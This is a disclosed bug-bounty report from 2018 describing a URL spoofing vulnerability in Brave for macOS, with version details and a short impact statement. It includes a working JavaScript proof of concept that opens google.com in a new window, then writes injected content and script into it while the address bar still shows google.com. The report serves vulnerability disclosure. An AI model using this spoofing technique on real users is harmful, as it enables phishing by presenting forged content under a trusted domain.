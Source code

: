 # URL spoofing in Brave for macOS

## Report Details
- **Report ID**: 369086
- **URL**: https://hackerone.com/reports/369086
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-06-20T04:53:57.770Z
- **Disclosed**: 2018-10-04T00:50:38.097Z

## Reporter
- **Username**: metnew
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
## Summary:
URL spoofing vulnerability.

## Repro

```
<script>
    window.onclick = function () {
        x = window.open('https://www.google.com/csi');
        setTimeout(function () {
            x.document.write(`I am not a www.google.com;<button onclick="alert('I can run JS on this page!')">click me</button>`)
        }, 100);
    }
</script>
```

URL in address bar is `https://www.google.com/csi`, but actually that's about:blank page.
Attacker could inject arbitrary content and execute javascript on this page.
Additionally, during alert(), address bar continue displaying `www.google.com`


## Products affected: 

Brave	0.22.810
V8	6.7.288.43
rev	8f30eeb
Muon	7.0.6
OS Release	17.6.0
Update Channel	Release
OS Architecture	x64
OS Platform	macOS
Node.js	7.9.0
Brave Sync	v1.4.2
libchromiumcontent	67.0.3396.71
OS: macOS 10.13.5 17F77 x86_64

## Impact

Typical URL spoofing vulnerability impact. Could be explained, if required.

## Attachments
No attachments
